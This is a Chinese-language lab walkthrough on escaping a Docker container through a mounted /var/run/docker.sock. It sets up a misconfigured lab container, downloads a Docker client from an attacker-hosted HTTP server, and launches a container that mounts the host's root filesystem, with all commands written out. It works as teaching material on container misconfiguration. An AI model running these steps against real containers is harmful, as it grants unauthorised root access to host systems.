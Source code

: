 # 配置不当--Socket逃逸
```shell
启动靶场：docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu
进入环境：docker exec -it with_docker_sock /bin/bash
```
![image-20231202152403675](./assets/image-20231202152403675.png)
```shell
检测文件：ls -lah /var/run/docker.sock
全文搜索：find / -type s -name docker.sock 2\>/dev/null
```

/var/run/docker.sock 和 /run/docker.sock 都是同一个 Unix 套接字文件的不同路径。这是因为 /var/run 和 /run 实际上是 Linux 系统中的符号链接，它们指向同一个目录。

![image-20231202152409041](./assets/image-20231202152409041.png)

找到之后，上传docker安装包到目标机器
```shell
python3 -m http.server 80 本地起一个环境\[把docker安装包放在启动目录下\]
```
下载
```shell
wget <http://192.168.86.218/docker-18.09.9.tgz>
```
解压
```shell
tar -xzvf docker-18.09.9.tgz
```
![image-20231202152415360](./assets/image-20231202152415360.png)
```shell
cd docker
chmod +x docker
./docker -H unix:///run/docker.sock images
```
![image-20231202152419008](./assets/image-20231202152419008.png)

这个时候，启动一个本地docker
```shell
./docker -H unix:///var/run/docker.sock run -d -v /:/host alpine tail -f /dev/null
./docker -H unix:///var/run/docker.sock exec IMAGE_ID 命令
./docker -Hunix:///var/run/docker.sock exec fe0f9c6f412c ls /host
```
![image-20231202152422936](./assets/image-20231202152422936.png)

 

逃逸成功

接下来看逃逸成功之后的操作---docker
